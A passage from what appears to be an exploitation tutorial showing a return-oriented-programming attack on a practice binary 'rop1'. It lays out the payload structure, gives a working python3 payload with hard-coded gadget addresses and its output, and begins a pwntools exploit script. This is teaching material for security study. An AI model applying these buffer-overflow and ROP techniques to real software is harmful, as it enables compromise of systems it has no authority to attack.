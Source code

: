 ### Payload Structure

**Payload Structure to achieve our ROP chain:**&#x20;

`AAAA`'s (to get to `EIP`) + `B`'s (to overwrite `EBP` with garbage) + `&rop1` + `&rop2` + `&rop3` + `&exit`

**Remember:** <mark style="color:yellow;">We will need to place our obtained addresses above in little-endian format in order for our payload to work</mark>.

### Using `python3` to Manually Exploit our Target Binary

{% code overflow="wrap" %}
```
./rop1 "$(python3 -c "import sys; sys.stdout.buffer.write(b'A'*108 + b'\x42\x42\x42\x42' + b'\x82\x91\x04\x08' + b'\xad\x91\x04\x08' + b'\xd8\x91\x04\x08' + b'\x60\xb4\xdb\xf7')")"
```
{% endcode %}

#### Result

```
./rop1 "$(python3 -c "import sys; sys.stdout.buffer.write(b'A'*108 + b'\x42\x42\x42\x42' + b'\x82\x91\x04\x08' + b'\xad\x91\x04\x08' + b'\xd8\x91\x04\x08' + b'\x60\xb4\xdb\xf7')")"
ROP 1!
ROP 2!
ROP 3!
Segmentation fault
```

### Using pwntools to Automate our Exploit Development

`exploit.py`:

```python
#!/usr/bin/python3
from pwn import *
import sys

# Set up pwntools for the correct architecture and target
exe = './rop1'
exe = context.binary = ELF(exe, checksec=False)
libc = ELF('/lib/i386-linux-gnu/libc.so.6', checksec=False)
p = process(exe.path)
# This will automatically get context arch, bits, os etc
# Change logging level to help with debugging (error/warning/info/debug)
#context.log_level = 'debug'

# DEBUGGING and ARGUMENTS
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)
    
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

```